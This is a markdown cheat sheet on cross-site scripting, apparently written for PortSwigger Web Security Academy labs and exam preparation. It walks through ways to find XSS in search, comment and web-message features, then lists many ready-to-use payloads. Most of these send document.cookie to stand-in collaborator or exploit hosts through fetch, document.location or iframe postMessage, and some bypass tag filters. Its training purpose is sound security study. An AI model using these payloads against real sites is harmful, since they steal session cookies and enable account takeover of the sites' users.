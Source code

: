 # Cross-site Scripting
> You can add your own custom `cookie` in ensuring the crafted payload works by executing the following payload in `console`:

```javascript
document.cookie="neverTellAnyone"
test'payload
test\payload
test`payload
```

## Quick Identifying Sequence
1. Identifying in **Home Page** by finding out the suspicious script like 
- `addEventListener('message')`. Please refer to [XSS Using Web Messages](#xss-using-web-messages)
- <body ng-app>. Please refer [this page](https://0aa100330328274c80c40d0500590057.web-security-academy.net/).
- use `DOM Invader` Extension for **prototype pollution**.
- Does it contain `canonical` link tag?

2. Identifying in **Search** Function by sending the following payload in **Search Field**:
    > [This payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#common-payloads) may be would be a good option in trigerring xss vul
    ```javascript
    <script>alert(1)</script>
    ```
    Then, Observe the result based on these conditions:
    - Is BlockedTag? Just jump into `intruder` action to find out the **allowed tags**. You can refer to [Blocked Tags is Identified](#blocked-tags-is-identified) section.
    - Does it contain any JSON file? Is there any suspicious `<script>` that processes the **search input**? Please trigger the following advance payloads, observe the result before exploiting [these payloads](#suspicious-script-is-identified).
        ```javascript
        <>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
        ```
        **OR**
        ```javascript
        fuzzer\';console.log(12345);//
        ```
        **OR**
        ```javascript
        fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
        ```

3. Identifying in **Blog Post** page, by sending the following payload in 
    - **Comment** Field:
        ```javascript
        <script>alert(1)</script>
        <><img src=1 onerror=alert(1)>
        <><img src="https://EXPLOIT.net/img">
        <img src=1 onerror=alert(1)>
        <script src=1 onerror=alert(1)></script>
        <video src=1 onerror=alert(1)></video>
        ```
    - Is there any suspicious `<script>` that processes the **comment**?
  
    - **Website** Field, check whether this field requires `http:|https:` pattern or has `onclick` attribute in DOM?

        Then, Observe the result based on these conditions:
        - is StoredXSS in `Comment` field trigerred? Just Craft the regular `XSS steal cookie` payload
        - is there **suspicious** process in `onclick` attribute? please jump into [Suspicious `onclick` atribute point](#suspicious-onclick-attribute-in-website-field-of-comment-list)
        - is there any suspicious `js` file that process the comment request? Please jump into [Suspicious Js File in Comment Function Point](#suspicious-js-file-that-processes-comment)


## Exploit Payload
### Canonical Link Tag
Please refer to [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag).
- trigger the vulnerability
    ```java script
    https://webID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
    ```
- Exploit using the trigerred payload (**using document.location**)
    ```javascript
    https://webID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27document%2elocation=%60https://collaboratorOastify.oastify.com/?c=${document.cookie}%60
    ```
-  Exploit using the trigerred payload (**using fetch**)
    ```javascript
    https://webID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27fetch(%60https://collaboratorOastify.oastify.com/?c=${document.cookie}%60)
    ```

### XSS Using Web Messages
1. [DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)
    - Manual Trigger in Console, the message will reflected in the page
      ```javascript
      window.postMessage("test","*")
      ```
    
    - Payload in Exploit Server
      ```javascript
      <iframe src="https://webID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=javascript:document.location=`https://collaboratorOastifyCom/?c=${window.location.href}`>','*')">
      ```

2. [DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)
    - Manual Trigger in Console, the message will reflected in the page
      ```javascript
      window.postMessage("javascript:alert(1)//https://test","*")
      ```
    
    - Payload in Exploit Server
      ```javascript
      <iframe src="https://webID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:document.location=`https://collaboratorOastifyCom/?c=${window.location.href}`//https://','*')">
      ```

3. [DOM XSS using web messages and JSON.parse](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)
    - Manual Trigger in Console, the message will reflected in the page
      ```javascript
      window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:document.cookie='TopSecret=UnsecureCookieValue4Peanut2019';javascript:document.location=`https://collaboratorOastifyCom/?c=${window.location.href}`+document.cookie\"}","*")
      ```
    
    - Payload in Exploit Server
        - using `fetch`
            ```javascript
            <iframe src=https://webId.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:fetch(`https://collaboratorOastifyCom/?c=${window.location.href}`+document.cookie)\"}","*")'>
            ```
        
        - using `document.location`
            ```javascript
            <iframe src=https://webId.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:document.location=`https://collaboratorOastifyCom/?c=${document.cookie}`+document.cookie\"}","*")'>
            ```

        - using **BotesJuan**'s Suggestion. I used `backtick` instrad of `single quote`
            ```javascript
            <iframe src=https://webId.web-security-academy.net/ onload='this.contentWindow.postMessage(JSON.stringify({
            "type": "load-channel",
            "url": "JavaScript:document.location=`https://collaboratorOastify?c=${window.location.href}`+document.cookie"
            }), "*");'>
            ```

### BLocked Tags is Identified
I think we only need to refer to:
1. [**BoatesJuan**'s Suggestion](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#bypass-blocked-tags)

2. [Related Port Swigger Web](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) or [SVG mark-up](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)


### Suspicious Script is Identified
> Observe how the `script` processes the **keywords** in Search Function and find the **correct payload** to exploit the vulnerabitily as follows:

1. On [hashChange](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)
    ```javascript
    <iframe src="https://webID.web-security-academy.net/#" onload="document.location='http://collaboratorOastify/?cookies='+document.cookie"></iframe>
    ```

2. [single quote and backslash escaped](https://0a5500260385b188804a085600750099.web-security-academy.net/?search=test%5C%27)
    - ensure the follwoing payload works in `search` field
        ```javascript
        </script><script>document.location="https://collaboratorOastifyCom/?cookie="+document.cookie</script>
        ```

    - Exploit server Payload 1:
        ```javascript
        location="https://webID.web-security-academy.net/?search=%3C%2Fscript%3E%3Cscript%3Edocument.location%3D%22https%3A%2F%2FcollaboratorOastify.oastify.com%2F%3Fcookie%3D%22%2Bdocument.cookie%3C%2Fscript%3E"
        ```
    - Exploit server Payload 2 using `</ScRiPt >` in case he application gave error message `Tag is not allowed`:
        ```javascript
        location="https://webID.web-security-academy.net/?search=%3C%2FScRiPt+%3E%3Cimg+src%3Da+onerror%3Ddocument.location%3D%22https%3A%2F%2FcollaboratorOastify.oastify.com%2F%3Fbiscuit%3D%22%2Bdocument.cookie%3E"
        ```

3. [angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)
    - trigger an alert in `search` field
        ```javascript
        \'-alert(1)//
        ```

4. Does it process a JSON file?
   - trigger alert in `search` field
        ```javascript
        "-alert(1)-"
        '};alert(1);//
        ```
   - Ensure the payload works
        ```javasript
        "-(window["document"]["location"]="https://webID%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
        ```
        **OR**
        ```javascript
        "}; location="https://collaboratorOastify/?"+document.cookie;//
        ```
   
5. Does it Contain `LastViewed` in Cookie?
   - trigger an alert first
    ```javascript
    <iframe src="https://TARGET.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://TARGET.net';window.x=1;">
    ```
   - Exploit the trigerred payload
    ```javascript
    <iframe src="https://webID.web-security-academy.net/product?productId=1&'><script>document.location=`https://collaboratorOastify/?c=${document.cookie}`</script>" onload="if(!window.x)this.src='https://webID.web-security-academy.net';window.x=1;">
    ```

### Suspicious `js` file that processes **comment**
   > It's better if you observe how the script works
   
   - trigger the following payload:
        ```javascript
        <><img src=1 onerror=alert(1)>
        ```
   - Exploit using yhe trigerred payload
        ```javascript
        <><img src=1 onerror=fetch('https://caqu19rxvnkn5iga42n1807jtaz1ntphe.oastify.com/?c='+document.cookie)>
        ```
        **OR this kind of references**
        ```javascript
        <img src="1" onerror="window.location='https://exploit.net/cookie='+document.cookie">

        <><img src=1 onerror=javascript:fetch(`https://OASTIFY.COM?escape=`+document.cookie)>

        <img src=x onerror=this.src='https://exploit.net/?'+document.cookie;>
        ```
   
### Suspicious `onclick` attribute in Website Field of Comment List
- trigger an alert using the following payload:
    ```javascript
    http://foo?&apos;-alert(1)-&apos;
    ```
- Exploit the trigerred payload:
    ```javascript
    https://foo?&apos;-fetch(&grave;https://collaboratorOastify/?c=${document.cookie}&grave;)-&apos;
    ```

